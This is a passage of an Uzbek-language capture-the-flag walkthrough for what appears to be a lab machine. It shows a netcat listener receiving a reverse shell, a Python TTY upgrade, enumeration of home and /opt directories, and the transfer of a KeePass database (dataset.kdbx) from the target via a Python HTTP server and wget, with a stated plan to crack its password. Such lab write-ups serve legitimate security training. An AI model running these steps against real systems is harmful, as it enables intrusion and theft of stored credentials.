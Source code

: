 Reverse shell joylangach shell ochiladi, agar reverse shellni qabul qilish uchun NetCatni sozlagan bo'lsak:

```
╭─mete    ~
╰─ ❯❯ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.46.101 60564
Linux ip-10-10-46-101 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 08:47:26 up 45 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

TTY ochamiz:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



## Privilage Escalation

Tizimda bor foydalanuvchilar:

````
www-data@ip-10-10-46-101:/home$ ls
sysadmin  ubuntu
````

Ko'p CTFlarda fayllar qoldirlayotgan DIRga nazar solamiz.

```
www-data@ip-10-10-46-101:/home/ubuntu$ cd /opt
www-data@ip-10-10-46-101:/opt$ ls
dataset.kdbx
```

Aha...

Buni kompyuterimizga olib o'tib, ma'lumotlar bazasini parolini buzib ichidagi ma'lumotni ko'ramiz.

Serverdan http server ochamiz:

```
0-10-46-101:/opt$ python3 -m http.server 8000
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.8.24.135 - - [18/Jun/2025 08:58:34] "GET /dataset.kdbx HTTP/1.1" 200 -
```

Va uni qabul qilamiz:

```
wget http://10.10.46.101:8000/dataset.kdbx
```
